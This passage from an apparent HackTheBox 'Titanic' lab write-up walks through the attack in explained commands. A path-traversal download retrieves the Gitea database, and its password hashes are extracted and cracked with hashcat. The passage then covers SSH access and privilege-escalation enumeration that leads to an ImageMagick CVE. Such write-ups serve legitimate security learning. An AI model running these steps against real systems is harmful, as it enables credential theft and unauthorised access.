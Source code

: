 #### curl
`curl "http://titanic.htb/download?ticket=/home/developer/gitea/data/gitea/gitea.db" -o files/gitea.db` - download the database file.

`curl -O https://raw.githubusercontent.com/hashcat/hashcat/master/tools/gitea2hashcat.py` - download the gitea2hashcat tool.

#### sqlite3
`sqlite3 gitea.db` - Using sqlite I can view the database file.

`.tables` shows a list of tables in the database, with a user table. 

`.schema user` - shows the columns in the *user* table. 

`select email, salt, passwd, passwd_hash_algo from user;`  - we could dump the entire table, but just dumping the credential and algorithm columns helps clean up the output.

`sqlite3 gitea.db 'select salt, passwd from user' | ./gitea2hashcat.py > hash.txt` - doing some more research I found a *gitea2hashcat* program that will convert the gitea hashes to a crackable format for hashcat. 

#### hashcat
`hashcat -m 10900 hash.txt /usr/share/wordlists/rockyou.txt` - hashcat is used to crack the passwords dumped from the *gitea.db* file I found earlier. 

I let hashcat run for some time and only the *developer* account seems to be crackable. With the newly found credential I can attempt to ssh into the developer account. 

---

## 5. Initial Accesss

`ssh developer@10.10.11.55` - ssh into the *developer* account. 

`sudo -l` - check for sudo permissions on the *developer* account, there are no sudo permissions.

`id` - show the current users user ID, group ID, and associated groups, there are no groups the *developer* account has access to.

`find / -perm -4000 2>/dev/null` - there are a few layers to this command. The `find` command takes  a path and will recursively search down the file system. `-perm -4000` says "search for any files with the permissions set to 4000". I am looking for binaries (executables) with the SUID bit set. If the SUID bit is set on a binary, the binary will be executed as the owner of the file. This means if I can find a binary that executes as *root*, I can potentially abuse these permissions as a privilege escalation. There is quite a bit of output here, but using tools such as https://gtfobins.github.io/, you can search for any of the listed binaries and filter down to the SUID bit to find a potential privilege escalation path. `2>/dev/null` will redirect *file descriptor 2* (stderr) to */dev/null*. In simple terms, "take any errors and throw them away", this helps reduce noise on the output. Nothing here, so let's keep looking.

`find / -name \*.sh -user root 2>/dev/null | grep -E -v 'lib|share|linux'` - as the *developer* user, I can not read others *crontab* file, but I can search for any scripts that *root* owns. There aren't any other user accounts to pivot into, so root is on my list for now. Using `grep` I can filter out some of the normal noise and try to find any abnormal/standout scripts. In the midst of the output, I found `/opt/scripts/identify_images.sh`, that I am able to read. The script is using `magick` to modify files. Doing some more research I found CVE-2024-41817, and a proof of concept at https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8
